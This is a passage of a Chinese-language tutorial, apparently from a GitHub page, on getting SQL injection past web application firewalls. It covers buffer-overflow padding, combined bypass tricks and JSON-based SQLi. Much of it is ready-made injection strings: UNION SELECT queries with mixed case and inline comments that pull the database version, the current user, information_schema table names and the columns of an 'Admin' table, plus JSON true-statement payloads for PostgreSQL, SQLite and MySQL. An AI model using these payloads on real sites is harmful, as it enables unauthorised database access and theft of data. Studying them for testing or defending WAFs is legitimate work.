 缓冲区溢出用于对付WAF在内的软件，本身有不少WAF是C语言写的，而C语言自身没有缓冲区保护机制，因此如果WAF在处理测试向量时超出了其缓冲区长度就会引发bug，从而实现绕过
  
举例
  
`?id=1 and (select 1)=(Select 0xA*1000)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26`
  

  
示例 0xA*1000 指0xA后面 'A' 重复1000次，一般来说对应用软件构成缓冲区溢出都需要较大的测试长度，这里1000只做参考，也许在有些情况下可能不需要这么长也能溢出
  

  
### i) 整合绕过
  
整合的意思是结合使用前面谈到的各种绕过技术，单一的技术可能无法绕过过滤机制，但是多种技术的配合使用成功的可能性就会增加不少了。这一方面来说关系到总体与局部，
  
另一方面则是多种技术的使用创造了更多的可能性组合，除非每一种技术单独都无法使用，否则它们能产生比自身大得多的能量。
  
举例
  
``` 
  
z.com/index.php?page_id=-15+and+(select 1)=(Select 0xAA[..(add about 1000 "A")..])+/*!uNIOn*/+/*!SeLECt*/+1,2,3,4…
  
id=1/*!UnIoN*/+SeLeCT+1,2,concat(/*!table_name*/)+FrOM /*information_schema*/.tables /*!WHERE */+/*!TaBlE_ScHeMa*/
  
	+like+database()– -
  
?id=-725+/*!UNION*/+/*!SELECT*/+1,GrOUp_COnCaT(COLUMN_NAME),3,4,5+FROM+/*!INFORMATION_SCHEM*/.COLUMNS+WHERE
  
	+TABLE_NAME=0x41646d696e--  
  
```

### j) json 格式绕过
![image](https://user-images.githubusercontent.com/5785346/208339891-af7707a5-9f16-4533-ab69-bfae07a9e6ea.png)
The New ‘ or ‘a’=’a
Using JSON syntax, it is possible to craft new SQLi payloads. These payloads, since they are not commonly known, could be used to fly under the radar and bypass many security tools. Using syntax from different database engines, we were able to compile the following list of true statements in SQL:

PostgreSQL: `'{"b":2}'::jsonb <@ '{"a":1, "b":2}'::jsonb` Is the left JSON contained in the right one? True.

SQLite: `'{"a":2,"c":[4,5,{"f":7}]}' -> '$.c[2].f' = 7` Does the extracted value of this JSON equals 7? True. 

MySQL: `JSON_EXTRACT('{"id": 14, "name": "Aztalan"}', '$.name') = 'Aztalan'` Does the extracted value of this JSON equals to ‘Aztalan’? True.

![image](https://user-images.githubusercontent.com/5785346/208339982-df4bc8ab-f825-4034-8fc1-ddb04059a226.png)
![image](https://user-images.githubusercontent.com/5785346/208340020-fb416d7a-1230-4b4c-8f14-5121cdacde0c.png)
